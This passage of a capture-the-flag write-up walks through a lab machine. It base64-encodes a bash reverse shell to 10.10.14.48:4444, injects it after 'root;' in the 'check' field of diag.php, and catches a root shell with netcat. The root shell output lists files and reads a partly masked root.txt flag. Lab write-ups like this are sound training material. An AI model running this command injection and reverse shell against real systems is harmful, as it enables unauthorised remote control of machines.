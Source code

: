 Okay so we have own the user. Now it's time to get a reverse shell which wasn't a hard task. Just need to send the following as thr b64

```bash
➜ echo "root;bash -i >& /dev/tcp/10.10.14.48/4444 0>&1"| base64
cm9vdDtiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQ4LzQ0NDQgMD4mMQo=
```
The part after `root;` is the bash way of getting a reverse shell. You can see different ways  of getting reverse shell[here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

From one tab I did:
```bash
➜ http -f POST http://10.10.10.105/diag.php Cookie:"PHPSESSID=927bpraqjv41bbcqu3dhgbkp81" check=cm9vdDtiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQ4LzQ0NDQgMD4mMQo=
```

and on another one I was listing using netcat:

```bash
➜ nc -lvnp 4444
Connection from 10.10.10.105:42990
bash: cannot set terminal process group (3171): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~#
```
This show that we have got the reverse shell. Time to play.

This is what I did to get own root:

```bash
root@r1:~# whoami
whoami
root
root@r1:~# ls -la
ls -la
total 24
drwx------ 1 root root  186 Mar 19 16:19 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
drwxr-xr-x 1 root root  152 Mar 19 14:52 10.120.15.10
-rw-r--r-- 1 root root 3121 Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2  2018 user.txt
-rw------- 1 root root 5168 Mar 19 16:19 .viminfo
root@r1:~# cd 10.120.15.10
cd 10.120.15.10
root@r1:~/10.120.15.10# ls -la
ls -la
total 32
drwxr-xr-x 1 root root   152 Mar 19 14:52 .
drwx------ 1 root root   186 Mar 19 16:19 ..
-rw-r--r-- 1 root root  3121 Jul  2  2018 .bashrc
drwxr-xr-x 1 root root    56 Mar 19 14:52 .cache
drwxr-xr-x 1 root root    22 Mar 19 14:52 .config
drwxr-xr-x 1 root root    50 Mar 19 14:52 .gnupg
-rw-r--r-- 1 root root   709 Mar 19 14:52 .listing
-rw-r--r-- 1 root root   148 Aug 17  2015 .profile
-rw-r--r-- 1 root root    33 Jul  1  2018 root.txt
-rw-r--r-- 1 root root    33 Mar 19 14:52 secretdata.txt
drwxr-xr-x 1 root root    46 Mar 19 14:52 .ssh
-rw-r--r-- 1 root root 11080 Sep  5  2018 .viminfo
root@r1:~/10.120.15.10# cat root.txt
cat root.txt
2832e55*****************
```